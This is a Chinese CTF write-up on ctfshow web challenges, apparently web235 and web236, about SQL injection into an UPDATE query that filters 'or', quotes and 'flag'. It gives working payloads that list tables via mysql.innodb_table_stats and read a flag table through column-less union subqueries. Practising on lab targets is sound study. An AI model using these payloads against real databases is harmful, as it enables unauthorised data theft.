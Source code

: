 **or '** 被禁导致inf**or**mation_schema.tables也被禁了

导致我们没办法查询列

这种情况涉及到一个知识点 ：[CTF|mysql之无列名注入 - 知乎](https://zhuanlan.zhihu.com/p/98206699)

> 在 information_schema 中，除了 SCHEMATA、TABLES、COLUMNS 有表信息外，高版本的 mysql 中，还有 INNODB_TABLES 及 [INNODB_COLUMNS](https://zhida.zhihu.com/search?content_id=109954541&content_type=Article&match_order=1&q=INNODB_COLUMNS&zhida_source=entity) 中记录着表结构。

读表

```
username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())#&password=\
```

查字段

```
username=,username=(select b from (select 1,2 as b,3 union select * from flag23a1 limit 1,1)a)#&password=\
```







#### web236

```php
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
返回逻辑

  //过滤 or ' flag
```

读表

```
username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())#&password=\

//banlist,ctfshow_user,flaga
```

读字段

```
username=,username=(select b from (select 1,2 as b,3 union select * from flaga limit 1,1)a)#&password=\
```

这题新增的flag过滤，但是实际上没有影响，或许是过滤返回的内容？


